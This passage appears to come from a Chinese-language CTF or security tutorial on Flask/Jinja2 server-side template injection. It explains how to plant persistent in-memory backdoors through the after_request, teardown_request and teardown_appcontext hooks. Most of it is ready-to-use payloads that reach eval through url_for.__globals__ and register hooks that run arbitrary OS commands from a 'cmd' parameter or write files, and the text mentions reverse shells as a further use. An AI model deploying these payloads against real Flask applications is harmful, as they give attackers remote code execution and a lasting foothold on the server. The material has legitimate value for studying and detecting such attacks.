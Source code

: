::: tip 
- 在 `before_request` 中，`request` 和 `app` 是在请求上下文中自动可用的。这是因为 `before_request` 钩子在处理请求时就会被调用，此时 Flask 已经设置好了请求上下文。因此，可以直接使用`request`和`app` 

- `after_request` 的上下文是在响应生成后，需要显式传递`request`和`app`这些变量来确保它们在函数中可用。这样，before_request 和 after_request 的行为差异源于它们被调用的上下文和时间
:::

在这里可以知道，`after_request`需要显示手动导入`request`和`app`变量这些`{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']}`

payload：

```python
{{url_for.__globals__.__builtins__['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}&cmd=whoami
```

### teardown_request

teardown_request：在每次请求后运行，即使处理发生了错误

定义：

```python
@setupmethod
    def teardown_request(self, f: TeardownCallable) -> TeardownCallable:
        self.teardown_request_funcs.setdefault(None, []).append(f)
        return f
```

与`after_request`类似，`teardown_request`装饰器在每次请求处理之后调用，同样可以接收一个自定义函数f，在后台运行，没有回显，可以写文件，出网反弹shell

```python
{{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].teardown_request_funcs.setdefault(None, []).append(lambda error: __import__('os').popen(__import__('flask').request.args.get('cmd')).read())")}}&cmd=echo 11111 > 1.txt
```

### teardown_appcontext

teardown_appcontext：在每次请求后运行，即使处理发生了错误

定义：

```python
@setupmethod
    def teardown_appcontext(self, f: TeardownCallable) -> TeardownCallable:
        self.teardown_appcontext_funcs.append(f)
        return f
```

不能动态接收get参数，可以利用写文件，出网反弹shell

payload：

```python
{{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].teardown_appcontext_funcs.append(lambda error: __import__('os').popen('echo 2222 > 1.txt').read())")}}
```

